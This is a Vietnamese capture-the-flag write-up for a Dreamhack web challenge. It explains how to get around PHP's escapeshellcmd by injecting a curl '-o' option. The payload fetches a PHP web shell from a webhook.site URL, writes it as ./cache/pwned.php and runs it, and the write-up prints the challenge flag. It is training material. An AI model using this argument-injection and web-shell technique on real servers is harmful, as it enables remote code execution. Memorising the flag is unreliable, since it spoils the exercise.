---
{
  title: Command Injection Advanced,
  date: 2026-11-24,
  ctf: Dreamhack,
  category: web,
  difficulty: Bronze 2,
  tags:
    [
      Command Injection,
      Filter Bypass,
      RCE,
      escapeshellcmd,
      curl,
      PHP,
      Web Shell
    ]
}
---

# Đề bài 
Exercise: This is a question practiced by Command Injection Advanced.

https://dreamhack.io/wargame/challenges/413
# Solution 
Truy cập challenge có giao diện 


Đọc file docker thì biết mục tiêu của bài này là thực hiện được lệnh shell `/flag` để lấy được flag 

Đọc source của `index.php`
```
<?php
if(isset($_GET['url'])){
    $url = $_GET['url'];
    if(strpos($url, 'http') !== 0 ){
        die('http only !');
    }else{
        $result = shell_exec('curl '. escapeshellcmd($_GET['url']));
        $cache_file = './cache/'.md5($url);
        file_put_contents($cache_file, $result);
        echo "<p>cache file: <a href='{$cache_file}'>{$cache_file}</a></p>";
        echo '<pre>'. htmlentities($result) .'</pre>';
        return;
    }
}else{
?> 
```
-> Nhập URL thì sẽ curl URL đó rồi lưu vào `./cache/<tên băm md5($url)>`

Để ý rằng có 1 lớp filter [escapeshellcmd()](https://www.php.net/manual/en/function.escapeshellcmd.php) dùng để escape các ký tự có khả năng tách lệnh / tách shell: `;`, `&`, `|`, `` ` ``, `$`, `(`, `)`, `\n`, dấu nháy... Nghĩa là mọi kỹ thuật command injection kinh điển (chèn lệnh thứ hai) đều chết ở đây


Nhưng để ý rằng do có `LAMP (mod_php)` nên chỉ cần gửi HTTP request tới file `.php` là Apache chạy nó trình thông dịch PHP (được Apache gọi nhờ mod_php)
-> Có thể chạy lệnh shell nếu truy cập được các file `.php` có `system()` hoặc các hàm chạy lệnh shell tương tự

Ta sử dụng [webhook](https://webhook.site/) để có thể kiểm soát nội dung của URL mà ta sẽ curl. Edit URL với content là `<?php system("/flag"); ?>`



:::warning
Lưu ý rằng dấu cách không hề được escaped -> có thể truyền các tham số (option) vào trong lệnh curl

:::

Có option nguy hiểm là `-o`, thay vì in nội dung tải về ra màn hình (stdout) thì ghi nội dung đó vào một file với tên mà bạn chỉ định ngay sau nó.

:::warning
Ta cần ghi vào file có đuôi `.php` để trình thông dịch PHP hiểu được và chạy nó dưới dạng php, nếu file không có đuôi `.php` thì sẽ chỉ được coi như là text tĩnh




:::

-> Payload: 
```
https://webhook.site/3352bb95-fc84-47d8-85e9-ed07c644c980 -o ./cache/pwned.php
```


-> Flag:
`DH{8ca5256a49452e4db9de7691a9c69b7678271383}`
:::warning
Đặt như vậy vì chương trình chỉ có đường `./cache/<file>` để lưu file. Nếu đặt tên khác thì sẽ có lỗi 404 vì URL thật chất không tồn tại


:::
